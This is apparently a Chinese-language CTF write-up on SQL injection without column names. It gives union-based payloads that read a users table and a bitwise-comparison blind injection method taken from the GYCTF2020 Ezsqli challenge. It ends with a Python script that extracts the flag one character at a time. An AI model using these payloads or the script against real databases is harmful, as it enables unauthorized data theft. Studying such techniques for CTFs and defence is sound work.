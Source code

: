 ```
select `3` from (select 1,2,3 union select * from user)x;
select x.3 from (select 1,2,3 union select * from user)x;
```

具体应用实例

```
1'/**/union/**/select/**/'1',(select/**/group_concat(x.3)/**/from/**/(select/**/1,2,3/**/union/**/select/**/*/**/from/**/users)x),'3','4','5','6','7','8','9','10','11','12','13','14','15','16','17','18','19','20','21','22
```

<br>

另外一种无列名注入的方法: <span style='color:black;background:yellow;font-family:hei;font-weight:bold'>按位比较,多用于盲注</span>

以下来自: [[GYCTF2020]Ezsqli](383bfb1c.html)

```
id=1^((select 1,1)>(select * from f1ag_1s_h3r3_hhhhh))  返回Error Occured When Fetch Result. 

id=1^((select 1,1,1)>(select * from f1ag_1s_h3r3_hhhhh))  返回bool(false)
这里说明目标表有两列 
```

这里前面`select`的结果,也就是`(1,1)`会和后面的结果去按位比较(`ASCII码`)

如果前后列数不一致,则会报错. 如果列数一致,再判断整个不等式的真假.  

比较的时候进行按位比较, 假设`select * from f1ag_1s_h3r3_hhhhh`的结果中,第二列的数据为:`flag{aaaaa}`

```
id=1^((select 1,'a')>(select * from f1ag_1s_h3r3_hhhhh))  返回Nu1L,这说明整个表达式的值为1,也就说明后面不等式的值为0
id=1^((select 1,'g')>(select * from f1ag_1s_h3r3_hhhhh))  返回Error Occured When Fetch Result. 说明整个表达式的值为0,也就说明后面不等式的值为1
```

所以此时我们按照`ascii`码值的顺序更换字母就可以了,当在某个字母,比如`g`时,返回的结果从`Nu1L`变成了`Error Occured When Fetch Result.`,  就说明它的前一个字母刚好等于flag的第一个字母.因此也就得知了flag的第一个字母是`f`

如果这里传入

```
id=1^((select 1,"abcd")>(select * from f1ag_1s_h3r3_hhhhh))
```

将首先比较"a"和`select * from f1ag_1s_h3r3_hhhhh`的结果中第一位的`ascii`码大小

如果首位比较的结果相等,再接着去比较第二位"b"和后面结果的第二个字符

根据这种性质,就可以使用代码来注入了:

```python
def get_data():
    flag = ""
    for i in range(1,100):
        for c in range(32,127): # 测试的ascii码范围
            data = {
                'id': "1^((select 1,'{}')>(select * from f1ag_1s_h3r3_hhhhh))#".format(flag+chr(c))
            }
            print(data['id'])
            res = session.post(base_url, data=data).text
            # print(res)
            if "Error Occured When Fetch Result." in res:
                flag = flag + chr(c-1)
                print(flag)
                break
 #输出:FLAG{0F444C84-7580-4A33-B2E8-19FCE4439E7D} 
```
